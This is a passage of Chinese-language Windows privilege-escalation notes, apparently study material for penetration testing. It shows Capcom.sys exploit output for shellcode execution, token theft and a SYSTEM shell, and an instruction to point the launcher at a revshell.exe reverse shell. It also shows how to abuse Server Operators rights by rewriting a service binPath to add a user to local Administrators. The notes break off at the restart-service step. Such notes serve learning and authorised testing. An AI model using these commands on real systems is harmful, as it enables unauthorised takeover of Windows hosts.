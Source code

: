 ```powershell
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```
- No GUI需求
修改LaunchShell裡面的資料，替換下面這行(revshell.exe自行處理)
```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
## Server Operators
>[!warning ] 小節重點
>這是一很強大的群組，可以直接做很多操作。
### 檢查服務Permissions
> 服務顯示Server Operators有all的權限。
```cmd
c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```
### 修改binpath
```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
### 重新起動服務